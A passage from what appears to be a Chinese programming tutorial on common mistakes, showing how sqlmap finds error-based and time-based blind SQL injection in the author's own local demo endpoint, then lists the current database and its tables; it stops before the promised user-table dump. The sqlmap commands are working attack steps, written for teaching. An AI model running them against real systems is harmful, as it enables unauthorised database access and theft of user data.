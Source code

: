 使用sqlmap来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test

```

一段时间后，sqlmap给出了如下结果：

![](images/237139/2f8e8530dd0f76778c45333adfad5259.png)

可以看到，这个接口的name参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来， **仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db

```

可以得到当前数据库是common\_mistakes：

```
current database: 'common_mistakes'

```

第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"

```
